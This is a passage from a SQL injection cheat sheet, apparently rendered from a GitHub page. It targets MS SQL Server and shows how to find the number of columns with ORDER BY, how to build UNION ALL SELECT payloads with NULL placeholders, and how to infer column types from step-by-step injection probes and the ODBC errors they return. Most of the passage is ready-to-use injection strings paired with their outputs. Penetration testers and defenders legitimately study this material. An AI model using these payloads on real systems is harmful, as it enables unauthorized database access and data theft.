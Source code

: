 #### Finding how many columns in SELECT query by  **ORDER BY**  **(MSO+)**

Finding column number by ORDER BY can speed up the UNION SQL Injection process.

-   `ORDER BY 1--`
-   `ORDER BY 2--`
-   `ORDER BY N--`  _so on_
-   Keep going until get an error. Error means you found the number of selected columns.

### Data types, UNION, etc.

#### Hints,

-   Always use  **UNION**  with  **ALL** because of  **image**  similiar non-distinct field types. By default union tries to get records with distinct.
-   To get rid of unrequired records from left table use -1 or any not exist record search in the beginning of query (_if injection is in WHERE_). This can be critical if you are only getting one result at a time.
-   Use NULL in UNION injections for most data type instead of trying to guess string, date, integer etc.
    -   Be careful in Blind situtaions may you can understand error is coming from DB or application itself. Because languages like ASP.NET generally throws errors while trying to use NULL values (_because normally developers are not expecting to see NULL in a username field_)

#### Finding Column Type

-   `' union select  sum(**columntofind**)  from  **users**--`  (S)  
    `Microsoft OLE DB Provider for ODBC Drivers error '80040e07'  
    [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a  **varchar**data type as an argument.`  
      
    _If you are not getting error it means_ column is numeric.  
      
    
-   Also you can use  CAST()  or  CONVERT()
    -   `SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--`  
          
        
-   `11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-`  
    No Error - Syntax is right. MS SQL Server Used. Proceeding.  
      
    
-   `11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-`  
    No Error – First column is an integer.  
      
    
-   `11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --`  
    Error! – Second column is not an integer.  
      
    
-   `11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 –-`  
    No Error – Second column is a string.  
      
    
-   `11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 –-`  
    Error! – Third column is not an integer. ...  
      